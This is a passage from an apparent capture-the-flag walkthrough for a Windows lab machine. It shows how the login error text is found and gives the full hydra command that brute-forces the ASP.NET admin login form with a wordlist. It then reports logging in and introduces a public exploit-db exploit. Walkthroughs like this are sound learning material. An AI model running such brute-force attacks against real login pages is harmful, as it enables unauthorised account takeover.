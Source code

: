 And forwarding the request, we can see that a login error message appears with the text `Login failed`

Now, with the gathered data we can build the hydra command:

`hydra -l admin -P /usr/share/wordlists/fasttrack.txt 10.10.243.37 http-post-form "/Account/login.aspx?ReturnURL=%2fadmin%2f:__VIEWSTATE=gIM3gB3youIJgamYDSq9I8KcJ65qkTcGNG4xcUV66GCbWTe8qxBf5vazzsVkYF46UequbLwxMPB%2FnJ250OVbaWslvJVxsUgX%2FekcVU66%2BSNQLM9g2YcBDaz%2BwIFVq8MbJeAlNAlVuVBb1ENbouQ%2BCUEUXdaAqER9UJSIfeTrsVti5NnFU%2FOkeI7Le6opTMtQVLgJ51cTY%2F8d2dHOUT5TWh7lftIpTvCG4YoxkI9abb7w1UUXMjgRd3mYIOUNQDAeR3solEMZn%2B5wSBYd%2FWNkQPfJUj9T5UNz3b1zGXCXi8HxiQx%2BzADp3s6bNvz7asMk8Y0MN1cIUBVqR8wkg3k%2Bn6EyHyR34gH1aiJfUNqdJ3vuGlrt&__EVENTVALIDATION=ZV5wkfSbQ%2FJN6v0RuQGDdvbxdRQHFrlNqpv0YgcsGLcQq22scoM7bk62pimul0s5oWnrfNnH6CIgqIakaJHZLsijL7D8mrB4atQ5YwZIRBshvtBSvWryF3NIyxCFVGYBZVHq4ofIQhijtUj3gN2cD0xIxW1yOiAdbjo5zVPz%2B7%2BY3gc2&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:F=Login failed" -V`

<figure><img src="../../.gitbook/assets/Untitled 9 (3).png" alt=""><figcaption></figcaption></figure>

Horay! We found a valid password for the admin user, let’s log in:

<figure><img src="../../.gitbook/assets/Untitled 10 (3).png" alt=""><figcaption></figcaption></figure>

We’re in!

## Compromise the machine <a href="#user-content-compromise-the-machine" id="user-content-compromise-the-machine"></a>

In this task, you will identify and execute a public exploit (from [exploit-db.com](http://www.exploit-db.com/)) to get initial access on this Windows machine!
